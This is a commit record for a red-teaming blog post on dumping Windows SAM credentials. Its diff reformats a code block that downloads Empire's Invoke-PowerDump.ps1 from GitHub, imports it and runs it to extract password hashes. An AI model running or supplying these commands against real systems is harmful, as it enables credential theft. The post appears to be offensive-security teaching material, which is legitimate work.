

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md, in a window 1280 px wide and 900 px high, scrolled down 5470 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; part of the change alters nothing that is shown.

Commit message:
Update 2021-06-26-Windows Credentials-SAM-Database-part-1.md

````diff
--- a/_posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md
+++ b/_posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md
@@ -104,12 +104,9 @@ pwdump7.exe
 
 ## Invoke-PowerDump.ps1
 ```
-download:https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
-```
-```
+ download:https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
 Import-Module .\Invoke-PowerDump.ps1
 Invoke-PowerDump
-https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
 ```
 <img src="/img/cred1/pd.PNG" alt="Getting-gz" width="1000" height="200">
 
````
